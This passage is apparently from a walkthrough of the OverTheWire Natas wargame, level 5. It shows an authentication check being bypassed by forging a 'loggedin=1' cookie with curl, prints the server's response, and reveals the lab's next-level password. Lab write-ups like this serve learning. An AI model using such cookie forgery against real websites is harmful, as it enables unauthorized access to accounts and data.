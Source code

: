 ***Access disallowed. You are not logged in***

Looking again at the inspector utility within the browser, it appears there is a Request Cookie `loggedin` set to 0. Is it really as simple as changing that to a 1?

Let's use another `curl` call:

**`raj@arch:~$ curl -u natas5:Z0NsrtIkJoKALBCLi5eqFfcRN82Au2oD --cookie loggedin=1 natas5.natas.labs.overthewire.org`**  
```
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas5", "pass": "Z0NsrtIkJoKALBCLi5eqFfcRN82Au2oD" };</script></head>
<body>
<h1>natas5</h1>
<div id="content">
Access granted. The password for natas6 is fOIvE0MDtPTgRhqmmvvAOt2EfXR6uQgR</div>
</body>
</html>
```
